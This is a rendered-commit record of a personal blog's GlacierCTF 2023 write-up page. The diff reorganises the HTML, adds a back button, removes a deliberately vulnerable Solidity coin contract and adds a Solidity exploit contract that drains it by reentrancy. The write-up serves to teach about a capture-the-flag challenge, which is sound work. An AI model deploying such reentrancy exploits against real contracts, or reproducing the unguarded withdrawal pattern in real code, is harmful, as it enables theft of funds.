

Before and after one commit to rudraimmunefi/0xrudra.in, a plain HTML site: page posts/CTF/glacier2023.html in a window 1280 px wide. Shown: the part 188-1705 px from the top of the page at 97% size, without its empty margins (224-1055 px from the left). Before the commit the page ends 1632 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
final fix, i promise

```diff
--- a/posts/CTF/glacier2023.html
+++ b/posts/CTF/glacier2023.html
@@ -4,7 +4,7 @@
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <meta http-equiv="X-UA-Compatible" content="ie=edge">
-  <title>Blog Post Title | Rudra Pratap Singh</title>
+  <title>Glacier CTF 2023 Writeup | Rudra Pratap Singh</title>
 
   <!-- Bootstrap CSS -->
   <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css"
@@ -59,7 +59,7 @@
       background-color: #f4f4f4;
       border-radius: 5px;
       padding: 10px;
-      overflow-x: auto; /* Enables horizontal scrolling for long lines */
+      overflow-x: auto;
       font-family: 'Courier New', monospace;
       line-height: 1.5;
     }
@@ -69,6 +69,24 @@
       border-radius: 3px;
       font-family: 'Courier New', monospace;
       padding: 2px 5px;
+    }
+
+    /* Back button styling */
+    .back-button {
+      display: block;
+      width: 100px;
+      margin: 30px auto;
+      padding: 10px 20px;
+      background-color: #007bff;
+      color: white;
+      text-align: center;
+      border-radius: 5px;
+      text-decoration: none;
+      transition: background-color 0.3s;
+    }
+
+    .back-button:hover {
+      background-color: #0056b3;
     }
   </style>
 </head>
@@ -80,35 +98,7 @@
     <div class="content">
       <p>Embarking on a journey to regularly update my blog, here's my initial attempt at a CTF write-up. I participated in GlacierCTF with my team, thehackerscrew, and we achieved an impressive 5th place finish.</p>
       <h2>Glacier Coin</h2>
-
-      <p>
-        We were given the source file which looks like this:
-      </p>
-      <pre><code>// SPDX-License-Identifier: MIT
-pragma solidity ^0.8.18;
-
-contract GlacierCoin
-{
-    function buy() public payable
-    {
-        _mint(msg.value, msg.sender);
-    }
-    function sell(uint256 amount) public
-    {
-        require(balances[msg.sender] >= amount, "You can not sell this much as you are poor af");
-        uint256 new_balance = balances[msg.sender] - amount;
-        (msg.sender).call{value: amount}("");
-        balances[msg.sender] = new_balance;
-    }
-    function _mint(uint256 amount, address target) internal
-    {
-        balances[target] += amount;
-    }
-}</code></pre>
-<p></br>
-    A careful examination reveals a pattern characteristic of the well-known reentrancy attack: <code>(msg.sender).call{value: amount}("");</code>. This pattern enables the caller, or 'msg.sender', to initiate a callback to their own address, potentially a smart contract. To delve deeper into reentrancy attacks, you can find more information <a href="https://solidity-by-example.org/hacks/re-entrancy/">here</a>.
-  <br>
-  The 'sell()' function in our context lacks a reentrancy guard and doesn't adhere to the checks-effects-interactions pattern. Consequently, invoking 'sell()' from a smart contract allows for the possibility of reentering the same function. As the contract attempts to transfer funds, our contract can trigger 'sell()' again. Since the contract's state isn't updated immediately, it erroneously permits the redemption of more funds than were initially deposited.
+      <p>We were given the source file which looks like this:</p>
    <br>
    <pre><code>// SPDX-License-Identifier: MIT
     pragma solidity ^0.8.0;
@@ -130,9 +120,33 @@ contract Exploit {
             coin.buy{value: 10 ether}();
             coin.sell(10 ether);
         }</code></pre>
-</p></br>
+
+      <p>A careful examination reveals a pattern characteristic of the well-known reentrancy attack: <code>(msg.sender).call{value: amount}("");</code>. This pattern enables the caller, or 'msg.sender', to initiate a callback to their own address, potentially a smart contract. To delve deeper into reentrancy attacks, you can find more information <a href="https://solidity-by-example.org/hacks/re-entrancy/">here</a>.</p>
+      <p>The 'sell()' function in our context lacks a reentrancy guard and doesn't adhere to the checks-effects-interactions pattern. Consequently, invoking 'sell()' from a smart contract allows for the possibility of reentering the same function. As the contract attempts to transfer funds, our contract can trigger 'sell()' again. Since the contract's state isn't updated immediately, it erroneously permits the redemption of more funds than were initially deposited.</p>
+      <pre><code>// SPDX-License-Identifier: MIT
+        pragma solidity ^0.8.0;
+
+        import "./Challenge.sol";
+
+        contract Exploit {
+            GlacierCoin public coin;
+            constructor(address _target) payable {
+                coin = GlacierCoin(_target);
+            }
+
+            fallback() external payable {
+
+               coin.sell(10 ether);
+
+            }
+            function attack() external payable {
+                coin.buy{value: 10 ether}();
+                coin.sell(10 ether);
+            }</code></pre>
     </div>
 
+    <!-- Back Button -->
+    <a href="javascript:history.back()" class="back-button">Back</a>
   </div>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
